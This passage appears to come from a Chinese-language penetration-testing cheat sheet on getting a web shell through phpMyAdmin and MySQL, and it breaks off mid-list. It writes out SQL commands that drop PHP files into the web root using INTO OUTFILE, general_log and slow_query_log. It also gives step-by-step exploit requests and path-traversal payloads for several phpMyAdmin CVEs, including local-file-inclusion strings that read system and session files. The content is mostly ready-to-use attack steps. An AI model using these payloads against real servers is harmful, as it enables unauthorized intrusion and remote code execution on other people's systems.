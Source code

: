 - phpMyAdmin
    - 寫文件 getshell
        - 條件
            - root 權限
            - 已知 web 路徑
            - 有寫檔權限
        - `select "<?php phpinfo();?>" INTO OUTFILE  "c:\\phpstudy\\www\\shell.php"`
    - general_log getshell
        - 條件
            - 讀寫權限
            - 已知 web 路徑
        - step1. 開啟日誌: `set global general_log = "ON";`
        - step2. 指定日誌文件: `set global general_log_file = "/var/www/html/shell.php";`
        - step3. 寫入php: `select "<?php phpinfo();?>";`
    - slow_query getshell
        - step1. 設置日誌路徑: `set GLOBAL slow_query_log_file='/var/www/html/shell.php';`
        - step2. 開啟 slow_query_log: `set GLOBAL slow_query_log=on;`
        - step3. 寫入 php: `select '<?php phpinfo();?>' from mysql.db where sleep(10);`
    - CVE-2018-19968
        - phpMyAdmin versions: 4.8.0 ~ 4.8.3
        - LFI to RCE
        - 條件
            - 能登入後台
        - step1. `CREATE DATABASE foo;CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';`
        - step2. `/chk_rel.php?fixall_pmadb=1&db=foo`
        - step3. ```INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_{SESSIONID}','plop';```
        - step4. `/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1`
    - CVE-2018-12613
        - phpMyAdmin versions: 4.8.x
        - LFI to RCE
        - 條件
            - 能登入後台
        - Payload
            - `index.php?target=db_sql.php%253f/../../../../../../windows/system.ini`
            - `index.php?target=sql.php%253f/../../../tmp/tmp/sess_16rme70p2qqnqjnhdiq3i6unu`
                - 在控制台執行的 sql 語句會被寫入 session
                - Session id 可以從 cookie `phpMyAdmin` 得到
    - CVE-2016-5734
        - phpmyadmin versions:
            - 4.0.10.16 之前的4.0.x版本
            - 4.4.15.7 之前的 4.4.x版本
            - 4.6.3之前的 4.6.x版本
        - php version:
            - 4.3.0 ~ 5.4.6
        - `preg_replace` RCE
        - 條件
            - 能登入後台
    - CVE-2014-8959
        - phpMyAdmin version:
            - 4.0.1 ~ 4.2.12
        - php version:
            - < 5.3.4
        - 條件
            - 能登入後台
            - 能截斷
        - Payload: `gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=/../../../../phpinfo.txt%00` (需修改token)
    - CVE-2013-3238
        - versions: 3.5.x < 3.5.8.1 and 4.0.0 < 4.0.0-rc3 ANYUN.ORG
        - https://www.exploit-db.com/exploits/25136
    - CVE-2012-5159